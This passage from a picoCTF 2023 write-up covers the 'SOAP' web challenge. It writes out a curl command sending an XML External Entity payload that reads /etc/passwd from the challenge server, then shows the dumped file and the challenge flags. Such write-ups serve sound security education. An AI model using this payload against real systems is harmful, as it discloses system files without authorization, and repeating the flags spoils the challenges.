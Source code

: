 **Flag: `picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_e3e46aae}`**

---

&nbsp;

&nbsp;

## **SOAP - 100 pts**

&nbsp;

### Description

The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

### Approach

Upon inspecting the page's source code, we discovered that there is an endpoint named "/data" that uses XML, as indicated by the corresponding JavaScript file. This suggests that the application may be vulnerable to XML External Entity (XXE) attacks.

![Untitled](/write-ups/picoctf/2023/web-exploitation/web-soap.webp)

I sent this payload using curl and got the flag

```bash
┌──(kali㉿iasad)-[~/CTFs/PicoCTF]
└─$ curl -X POST -H "Content-Type: application/xml" 
-d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE 
data [ <!ENTITY test SYSTEM "file:///etc/passwd" > ]> 
<data><ID>&test;</ID></data>' http://saturn.picoctf.net:53312/data

Invalid ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flask:x:999:999::/app:/bin/sh
picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_e5f02dbf}
```
&nbsp;

---
